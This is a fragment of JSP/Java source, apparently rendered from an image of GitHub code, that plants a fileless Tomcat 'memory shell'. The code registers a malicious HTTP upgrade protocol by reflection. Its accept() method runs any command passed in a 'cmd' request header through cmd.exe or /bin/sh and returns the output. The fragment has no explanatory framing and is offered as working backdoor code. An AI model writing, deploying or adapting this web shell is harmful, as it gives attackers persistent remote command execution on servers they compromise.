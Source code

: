 ```bash

        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        public String getAlpnName() {
            return null;
        }

        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapper, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String p = request.getHeader("cmd");
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                org.apache.coyote.Response resp = (org.apache.coyote.Response) response.get(request);
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream(), "GBK").useDelimiter("\\A").next().getBytes();
                resp.setCharacterEncoding("GBK");
                resp.doWrite(ByteBuffer.wrap(result));
            } catch (Exception ignored){}
            return false;
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    Field conn = Request.class.getDeclaredField("connector");
    conn.setAccessible(true);
    Connector connector = (Connector) conn.get(req);
    Field proHandler = Connector.class.getDeclaredField("protocolHandler");
    proHandler.setAccessible(true);
    AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    upgradeProtocolsField.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
    upgradeProtocols.put("hello", new MyUpgrade());
    upgradeProtocolsField.set(handler, upgradeProtocols);
%>
```
